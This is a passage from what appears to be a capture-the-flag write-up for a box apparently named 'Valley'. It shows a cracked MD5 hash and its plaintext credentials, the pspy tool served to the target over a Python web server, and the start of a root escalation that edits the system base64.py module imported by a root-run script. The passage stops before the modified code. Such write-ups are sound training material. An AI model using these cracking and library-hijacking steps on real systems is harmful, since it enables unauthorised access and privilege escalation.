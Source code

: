 ```shell
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

 Not Found.
--------------------------------------------------
 HASH: e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```
Now we identify hash as md5
Let's crack the hash using John the ripper
```shell
john hash -w rockyou --format=RAW-MD5
```
we get credentials
*valley*
*liberty123*
we are sudo but not there yet. We can't access root files.
Find escalation points.
get pspy from https://github.com/DominicBreuker/pspy/releases. For mine i use pspy64. Download to you machine.
use python server
on local machine where you have the downloaded file
```shell
python -m http.server 1234
```
on target machine
```shell
wget http://10.9.5.186/pspy64
```
Close the connection
Modify permissions of the file
```shell
chmod +x pspy64
```
Execute it
 ```shell
 ./pspy64
 ``` 
and we see some interesting stuff

### Privesc

We see a script that imports a base64 module
```shell
python3 /photos/script/photosEncrypt.py 
$ cat /photos/script/photosEncrypt.py
#!/usr/bin/python3
import base64

```
find base64.py files
```shell
find / type -name "base64.py" 2>/dev/null
```
We get something interesting /usr/lib/python3.8/base64.py
Let's modify to get shell
```shell
nano /usr/lib/python3.8/base64.py
```
